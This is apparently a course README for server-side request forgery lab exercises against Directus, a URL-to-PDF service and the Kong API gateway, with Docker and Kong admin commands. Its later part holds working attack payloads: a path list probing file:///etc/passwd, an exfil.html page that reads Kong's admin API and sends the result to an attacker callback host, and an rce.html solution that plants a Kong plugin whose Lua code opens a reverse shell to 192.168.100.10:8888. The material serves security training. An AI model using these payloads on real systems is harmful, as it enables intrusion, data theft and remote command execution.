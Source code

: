 Server Side Request Forgery
=======

## Exercise Starter Scripts
[Route Buster](templates/route_buster.py)
[Port Scanner](templates/ssrf_port_scanner.py)
[Gateway Scanner](templates/ssrf_gateway_scanner.py)


## Exercise Solutions
[Route Buster](solutions/route_buster.py)
[Port Scanner](solutions/ssrf_port_scanner.py)
[Gateway Scanner](solutions/ssrf_gateway_scanner.py)
[Subnet Scanner](solutions/ssrf_subnet_scanner.py)
[Path Scanner](solutions/ssrf_path_scanner.py)


## Source Code

[Directus](directus-9.0.0-rc.34.zip)
[URL to PDF API](url-to-pdf-api-master.zip)


## Docker Commands

### Shut down the API gateway and all containers
```
docker-compose -f ~/apps/conf/docker-compose.yml down 
```

### Start the API gateway and all containers
```
docker-compose -f ~/apps/conf/docker-compose.yml up
```

###  List information about running containers
```
docker ps 
```

### List Docker networks
```
docker network ls
```

### Inspect API gateway network
```
docker network inspect conf_microservices
```

### Run a command in a container
```
docker-compose -f ~/apps/conf/docker-compose.yml exec <image name> <command>
```
Note that the image name needs to match the name from the docker-compose.yml file. 

Example - run /bin/bash in the Directus container.
```
docker-compose -f ~/apps/conf/docker-compose.yml exec directus /bin/bash
``` 

### View log file for container
```
docker logs <container name>
``` 
The container name must match the name of a running container, not the image name.

Example - view log file for the running Kong container:
```
docker logs conf_kong_1
``` 

## Kong API Gateway endpoints

### List all plugins 
```
GET http://localhost:8001/plugins
```

### Get plugin details
```
GET http://localhost:8001/plugins/<id>
```

### Delete plugin
```
DELETE http://localhost:8001/plugins/<id>
```

## Miscellaneous Files

**paths.txt**
```
?data=foobar
?file=file:///etc/passwd
?url=http://192.168.100.10/render/url
?input=foobar
?target=http://192.168.100.10/render/target
```


**SSRF HTML Page**

offsec.html

```
<html>
<head>
<script>
function runscript() {
    fetch("http://192.168.2.154/itworked");
}
</script>
</head>
<body onload='runscript()'>
<div></div>
</body>
</html>
```

**Sample curl request**
```
curl -i -X POST -H "Content-Type: application/json" -d '{"url":"http://172.16.16.3:9000/api/render?url=http://192.168.2.154/offsec.html"}' http://apigateway:8000/files/import
``` 

**Exfil**

exfil.html   

```
<html>
<head>
<script>
function runscript() {
    fetch("http://172.16.16.KONG_IP:8001")
    .then((response) => response.text())
    .then((data) => {
        fetch("http://192.168.100.10/callback?" + encodeURIComponent(data));
    }).catch(err => {
        fetch("http://192.168.100.10/error?" + encodeURIComponent(err));
    });
}
</script>
</head>
<body onload='runscript()'>
<div></div>
</body>
</html>
```

**Serverless Function RCE - Template**

rce.html template
```
<html>
<head>
<script>

function createService() {
    fetch("http://KONG_IP:8001/services", {
      method: "post",
      headers: { "Content-Type": "application/json" },
      body: JSON.stringify({---FIX ME---})
    }).then(function (route) {
      createRoute();
    });
}

function createRoute() {
    fetch("http://KONG_IP:8001/services/supersecret/routes", { 
      method: "post",
      headers: { "Content-Type": "application/json" },
      body: JSON.stringify({--FIX ME---})
    }).then(function (plugin) {
      createPlugin();
    });  
}

function createPlugin() {
    fetch("http://KONG_IP:8001/services/supersecret/plugins", { 
      method: "post",
      headers: { "Content-Type": "application/json" },
      body: JSON.stringify({---FIX ME---})
    }).then(function (callback) {
      fetch("http://192.168.100.10/callback?setupComplete");
    });  
}
</script>
</head>
<body onload='createService()'>
<div></div>
</body>
</html>
```

**Serverless Function RCE - Solution**

rce.html

```
<html>
<head>
<script>

function createService() {
    fetch("http://172.16.16.KONG_IP:8001/services", {
      method: "post",
      headers: { "Content-Type": "application/json" },
      body: JSON.stringify({"name":"supersecret", "url": "http://127.0.0.1/"})
    }).then(function (route) {
      createRoute();
    });
}

function createRoute() {
    fetch("http://172.16.16.KONG_IP:8001/services/supersecret/routes", { 
      method: "post",
      headers: { "Content-Type": "application/json" },
      body: JSON.stringify({"paths": ["/supersecret"]})
    }).then(function (plugin) {
      createPlugin();
    });  
}

function createPlugin() {
    fetch("http://172.16.16.KONG_IP:8001/services/supersecret/plugins", { 
      method: "post",
      headers: { "Content-Type": "application/json" },
      body: JSON.stringify({"name":"pre-function", "config" :{ "access" :["local s=require('socket');local t=assert(s.tcp());t:connect('192.168.100.10',8888);while true do local r,x=t:receive();local f=assert(io.popen(r,'r'));local b=assert(f:read('*a'));t:send(b);end;f:close();t:close();"]}})
    }).then(function (callback) {
      fetch("http://192.168.100.10/callback?setupComplete");
    });  
}
</script>
</head>
<body onload='createService()'>
<div></div>
</body>
</html>
```